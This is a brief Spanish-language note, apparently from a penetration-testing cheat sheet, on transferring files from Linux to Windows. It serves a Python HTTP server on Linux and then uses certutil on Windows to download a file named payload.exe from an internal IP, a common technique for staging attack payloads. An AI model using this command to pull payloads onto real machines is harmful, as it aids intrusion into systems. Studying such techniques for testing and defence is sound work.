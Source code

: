 # Transferir archivos

## Descripción
En este sección se habla de la transferencia de archivos entre sistemas operativos como Windows y Linux

### Linux to Windows

```python
command in linux (first)
python3 -m http.server 80 (habilitamos el servidor local en linux)
python -m SimpleHTTPServer 80 (otra forma de habilitar el servidor local)
command in windows
certutil -urlcache -f http://10.10.23.2/payload.exe payload.exe (este comando se ejecuta en windows)
```

